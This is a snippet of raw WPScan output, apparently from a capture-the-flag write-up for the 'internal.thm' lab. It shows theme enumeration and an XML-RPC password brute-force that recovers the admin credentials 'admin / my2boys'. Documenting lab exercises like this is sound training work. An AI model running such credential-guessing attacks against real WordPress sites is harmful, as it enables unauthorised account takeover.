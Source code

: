 ```bash

[+] WordPress theme in use: twentyseventeen
 | Location: http://internal.thm/blog/wp-content/themes/twentyseventeen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://internal.thm/blog/wp-content/themes/twentyseventeen/readme.txt
 | [!] The version is out of date, the latest version is 2.8
 | Style URL: http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.3 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://internal.thm/blog/wp-content/themes/twentyseventeen/style.css?ver=20190507, Match: 'Version: 2.3'

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:03 <======================================> (137 / 137) 100.00% Time: 00:00:03

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                          
Trying admin / ionela Time: 00:03:25 <                                      > (3885 / 14348276)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Aug 17 18:16:51 2021
[+] Requests Done: 4028
[+] Cached Requests: 35
[+] Data Sent: 2.037 MB
[+] Data Received: 2.311 MB
[+] Memory used: 258.996 MB
[+] Elapsed time: 00:03:37
                              
```
